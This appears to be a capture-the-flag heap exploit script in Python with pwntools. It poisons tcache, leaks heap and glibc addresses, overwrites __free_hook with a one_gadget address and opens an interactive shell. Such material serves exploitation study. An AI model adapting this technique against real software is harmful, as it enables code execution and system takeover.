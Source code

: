 ```python  
malloc(1, "junk3", "junk4")  
free(0)  
free(1)  
target = 0x404028-32

print(hack(1, p64(target)))  
print(malloc(2, "junk5", "junk6"))  
malloc(3, b"\xff\xff", b"\xff\xff\xff")  
#this set MAX_DREAMS to a large number

#Now I can make a fake chunk of a large enough size to get a glibc leak  
malloc(533, "FINDME", "PAY2")  
chunkleak = heapleak(533)  
heapbase = chunkleak - 4928  
print(hex(heapbase))

for i in range(25):  
   malloc(10+i, "fake-"+str(i), "fake2-"+str(i))

malloc(35, "free1", "free1p")  
malloc(36, "free2", "free2p")  
free(35)  
free(36)  
offset = 4952  
targethere = heapbase + offset  
#this is 16 bytes before the 10th chunk  
hack(36, p64(targethere))  
malloc(37, "junk", "junk2")  
malloc(38, "junk", p64(0) + p64(0x4b1))  
malloc(41, "free1", "free1a")  
malloc(42, "free2", "free2a")  
free(10)  
glibcleak = heapleak(10) #glibc  
glibcbase = glibcleak - 2018272  
oneg=0xe3b2e  
oneg=0xe3b31  
onegadget = glibcbase + oneg  
freehook = glibcleak + 8808  
print(hex(freehook), "freehook")

free(41)  
free(42)  
hack(42, p64(freehook-16))  
malloc(43, "junk", "junk2")  
malloc(44, "junk", p64(0) + p64(onegadget))  
p.sendlineafter(b"> ","2")  
#p.sendlineafter(b"in?","43")  
#free(43)  
p.interactive()  
```
